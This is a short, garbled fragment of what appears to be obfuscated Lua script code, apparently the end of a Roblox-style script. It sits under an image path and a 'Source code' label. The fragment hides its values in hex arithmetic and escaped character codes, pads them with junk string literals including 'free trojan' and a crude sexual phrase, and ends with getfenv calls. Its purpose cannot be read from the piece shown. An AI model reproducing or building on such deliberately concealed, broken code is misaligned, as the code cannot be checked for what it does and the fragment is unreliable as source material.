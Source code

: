 and'((-51+0xac)+-#[[Two trucks having sex]])')and'\117\109\98'or'\100\97\120\122'end)((-#[[free trojan]]+(125-0x6d))==(-21+0x1a))..'\101\114'},{[((-0x1f+109)+-#[[weezer]])]=((getfenv))},((getfenv))()) end)()


